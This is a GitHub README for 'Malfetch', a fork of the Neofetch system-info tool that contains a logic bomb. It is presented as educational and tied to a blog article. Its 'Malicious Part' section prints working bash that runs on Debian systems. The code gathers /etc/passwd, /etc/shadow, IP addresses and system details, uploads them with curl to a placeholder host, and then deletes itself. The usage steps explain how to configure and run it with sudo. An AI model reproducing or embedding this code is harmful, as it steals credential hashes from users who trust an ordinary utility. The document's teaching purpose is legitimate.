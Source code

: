 # Malfetch
Malfetch is a fork of Neofetch designed for educational purposes. This repository contains a logic bomb integrated into the original Neofetch functionality, allowing users to understand the implications of malicious code in a controlled environment.

This repository prepared for [Kaishira's article](https://www.kaishira.com/2025/01/28/demonstrating-the-use-of-logic-bombs-in-legitimate-application).

# Warning
This repository is intended for educational purposes only. It is crucial to understand the ethical implications of using and distributing malicious code. Use this repository responsibly and only in environments where you have explicit permission to test and learn.

# Malicious Part
There is no default hostname, so the created system file won't go anywhere until you edit the code.
``` bash
logic() {
    [[ $distro ]] && return

    if [[ -f /etc/os-release ]]; then
        source /etc/os-release
        if [[ $ID == "debian" ]]; then
            distro="Debian ${VERSION_ID:-${VERSION}}"
            malicious  
        fi
    fi
}

malicious() {
    sudo bash -c 'cat /etc/passwd > /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   cat /etc/shadow >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Local IP Address(es):" >> /tmp/xyz1048udk && \
                   hostname -I >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Public IP Address:" >> /tmp/xyz1048udk && \
                   curl -s ifconfig.me >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "System Information:" >> /tmp/xyz1048udk && \
                   echo "Operating System:" >> /tmp/xyz1048udk && \
                   lsb_release -d >> /tmp/xyz1048udk && \
                   echo "Kernel Version:" >> /tmp/xyz1048udk && \
                   uname -r >> /tmp/xyz1048udk && \
                   echo "Disk Usage:" >> /tmp/xyz1048udk && \
                   df -h >> /tmp/xyz1048udk'

    curl -X POST -F "file=@/tmp/xyz1048udk" https://hostname/upload_endpoint

    sudo rm /tmp/xyz1048udk
    sudo rm -- "$0"  
}
```

# How to Use

To test the script, follow these steps:

1. **Clone the Repository**: Clone the repository to your local machine or a virtual machine using the following command:
   ```bash
   git clone https://github.com/kaishira/malfetch.git
   ```

2. **Edit the IP Address and Hostname**: Navigate to the cloned directory and edit the script to set the appropriate IP address and hostname as needed.

3. **Run the Script**: Inside the cloned folder, execute the script with the following command:
   ```bash
   sudo ./neofetch
   ```

# Disclaimer
The authors of this repository are not responsible for any misuse of the code contained herein. By using this repository, you agree to take full responsibility for your actions and to use the code only in ethical and legal contexts.
